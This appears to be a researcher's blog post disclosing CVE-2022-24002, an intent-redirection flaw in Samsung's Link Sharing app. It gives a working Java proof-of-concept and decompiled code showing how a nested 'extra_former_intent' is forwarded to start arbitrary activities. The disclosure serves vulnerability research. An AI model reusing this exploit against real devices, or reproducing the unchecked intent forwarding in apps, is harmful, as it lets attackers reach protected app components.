 ```yaml
---
layout: post
title:  "CVE-2022-24002 - Samsung Link Sharing Start Any Activity"
date:   2021-12-31 10:00:00 -0500
categories: research
tags: bug collision
---
```


In 2021, as part of my research for Austin Pwn2Own 2021, I found a bug where the Link Sharing application could be abused to start either:

* Any exported activity
* Any protected activity within the Link Sharing application

I submitted this bug to Samsung but they said someone else already reported it. Today Samsung publicly disclosed the CVE ID for this issue, and credit goes to Dawuge of Pangu Team. I guess it is safe for me to disclose my PoC for it:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.samsung.android.app.simplesharing", "com.samsung.android.app.simplesharing.presentation.precondition.PreconditionActivity"));

Intent intent2 = new Intent();
intent2.setComponent(new ComponentName("com.sec.android.app.sbrowser", "com.sec.android.app.sbrowser.SBrowserLauncherActivity")); // replace with any other target component
intent2.setData(Uri.parse("https://www.f-secure.com"));
intent2.putExtra("yay", "boo");

Bundle bundle = new Bundle();
bundle.putInt("extra_request_code", 9001);
bundle.putParcelable("extra_former_intent", intent2);

intent.putExtras(bundle);

startActivity(intent);
```

## Technical Details

When `PreConditionActivity` is opened, the Intent is passed onto `com.samsung.android.app.simplesharing.presentation.precondition.PreconditionViewModel.handlePrecondition(intent)`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionActivity extends AppCompatActivity {

    public void onCreate(Bundle bundle) {
        AndroidInjection.inject(this);
        ...
        PreconditionViewModel viewModel = getViewModel();
        ...
        viewModel.handlePrecondition(intent);
    }

    public final PreconditionViewModel getViewModel() {
        return (PreconditionViewModel) this.viewModel$delegate.getValue();
    }
```
The Intent is processed, and the parcelable extra `extra_former_intent` is stored in the variable `formerIntent`. This variable can then be called via the method `getFormerIntent()`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionViewModel extends AndroidViewModel {

    private Intent formerIntent;

    public final void handlePrecondition(Intent intent) {
        if (!this.isInit) {
            this.isInit = true;
            if (isFromSdk(intent)) {
                this.callerType = CallerType.TYPE_SDK;
                if (enforceShowPermissionNotice()) {
                    setShouldEnforceShowPermissionNotice();
                } else {
                    setShouldRequestPermission();
                }
            } else if (isOptionalContactRequest(intent)) {
                setShouldRequestContactPermission();
            } else if (isOptionalCameraRequest(intent)) {
                setShouldRequestCameraPermission();
            } else {
                Intent intent2 = (Intent) intent.getParcelableExtra("extra_former_intent");
                this.formerIntent = intent2;
                ...
    }

    public final Intent getFormerIntent() {
        return this.formerIntent;
    }
```

Going back to the class `com.samsung.android.app.simplesharing.presentation.precondition.PreconditionActivity`, the method `startFormalIntentActivity()` is called which then retrieves the variable `formerIntent` via `getFormerIntent()`, and then calls class `com.samsung.android.app.simplesharing.presentation.common.util.NavigatorUtil` method `startActivityFromFormerIntent(Activity, Intent)`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionActivity extends AppCompatActivity {

    public final void startFormalIntentActivity() {
        if (getViewModel().isProcessRestart()) {
            NavigatorUtil.startHistoryActivity$default(NavigatorUtil.INSTANCE, this, false, null, 6, null);
        } else {
            Intent formerIntent = getViewModel().getFormerIntent();
            if (formerIntent != null) {
                NavigatorUtil.INSTANCE.startActivityFromFormerIntent(this, formerIntent);
            }
        }
        finishWithSuccess();
    }
```

The `formerIntent` is finally passed to `startActivity(Activity, Intent)`, where the component in the `formerIntent` is used to start a new activity:

```
package com.samsung.android.app.simplesharing.presentation.common.util;

public final class NavigatorUtil {

    public final void startActivityFromFormerIntent(Activity activity, Intent intent) {
        Intent copyIntent = copyIntent(intent);
        if (intent.getClipData() != null) {
            copyIntent.setClipData(intent.getClipData());
            copyIntent.addFlags(1);
        }
        INSTANCE.startActivity(activity, copyIntent);
    }
```